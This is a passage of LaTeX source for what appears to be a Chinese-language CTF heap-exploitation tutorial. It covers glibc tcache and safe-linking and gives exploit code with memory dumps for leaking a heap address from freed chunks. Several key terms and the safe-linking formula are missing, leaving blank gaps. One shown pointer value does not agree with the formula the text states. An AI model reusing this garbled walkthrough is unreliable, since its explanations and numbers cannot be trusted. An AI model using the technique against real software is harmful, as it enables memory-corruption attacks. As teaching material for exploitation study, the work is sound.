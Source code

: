 \subsection{複習：tcache 與 safe-linking}

（細節在第 \ref{sec:safelink} 節，這裡只列等一下要用的三條規則。）

\begin{enumerate}[leftmargin=1.5em,itemsep=2pt]
  \item 同一種大小的 chunk 放同一個 bin，\textbf{LIFO}：最後 free 的會最先被  拿回去。
  \item 一個 free 掉的 chunk，它的  存在 \textbf{user+0x0}， 存在 \textbf{user+0x8}。
  \item safe-linking：。
        如果  是 NULL，那  就\textbf{直接等於「自己位址 >> 12」}。
\end{enumerate}

\subsection{步驟一：兩個同 bin 的兄弟，從  反推 heap}

\begin{lstlisting}[style=py]
SIZE = 0x100                       # chunk size 0x110
add(0, SIZE)                       # A
add(1, SIZE)                       # B
free(0)                            # tcache[0x110] = [A]
free(1)                            # tcache[0x110] = [B, A]
\end{lstlisting}

先看 A（它是 bin 的尾巴， 指到 NULL）：

\begin{lstlisting}[style=raw]
show(0, 0, 0x20)  ->
  4d cd 0e 59 05 00 00 00 | c4 10 df 66 02 cc 49 3e
  66 6c 61 67 5f 68 6f 75 73 65 5f 6f 66 5f 77 61
  ^^^^^^^^^^^^^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^^^^^^
        fd (= A>>12)              key (常數)
\end{lstlisting}

\begin{lstlisting}[style=py]
fd_a = 0x00000005590ecd4d
heap = fd_a << 12                 # = 0x5590ecd4d000
\end{lstlisting}

再看 B（ 指到 A）：

\begin{lstlisting}[style=raw]
show(1, 0, 0x20)  ->
  89 1a 06 a7 fa 55 00 00 | c4 10 df 66 02 cc 49 3e
  ^^^^^^^^^^^^^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^^^^^^
     fd (= A ^ (B>>12))          key（和 A 的 key 一模一樣！）
\end{lstlisting}

